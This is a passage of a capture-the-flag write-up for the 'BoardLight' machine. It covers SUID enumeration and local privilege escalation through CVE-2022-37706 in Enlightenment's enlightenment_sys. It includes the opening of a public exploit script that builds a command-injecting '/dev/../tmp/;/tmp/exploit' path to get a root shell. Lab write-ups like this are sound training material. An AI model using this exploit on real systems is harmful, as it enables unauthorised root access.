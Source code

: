 ![](<Pasted image 20240907171558.png>){: w="600" h="300" .center }


```console
larissa@boardlight:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
larissa@boardlight:~$ cat user.txt 
[REDACTED]
```

## Root Flag
### Enumeration

Looking for files with the `SUID` bit set, I found these interesting binaries:
```console
larissa@boardlight:~$ find / -perm -u+s -ls 2>/dev/null
...
    17633     28 -rwsr-xr-x   1 root     root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
    17628     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
    17627     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
...
```

### CVE-2022-37706
After googling them, I found the **CVE-2022-37706**

>[nist.gov - **CVE-2022-37706**](https://nvd.nist.gov/vuln/detail/CVE-2022-37706)
>
>enlightenment_sys in Enlightenment before 0.25.4 allows local users to gain privileges because it is setuid root, and the system library function mishandles pathnames that begin with a /dev/.. substring.
{: .prompt-info}

`MaherAzzouzi` on GitHub already has an exploit for it:
> [PoC GitHub - CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)
> 
> This 0-day gonna take any user to root privileges very easily and instantly. The exploit is tested on Ubuntu 22.04, but should work just fine on any distro.
{: .prompt-tip}

### Privilege Escalation - Root
I copied the `exploit.sh` file's content into `exp.sh` on the machine.
```bash
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"
```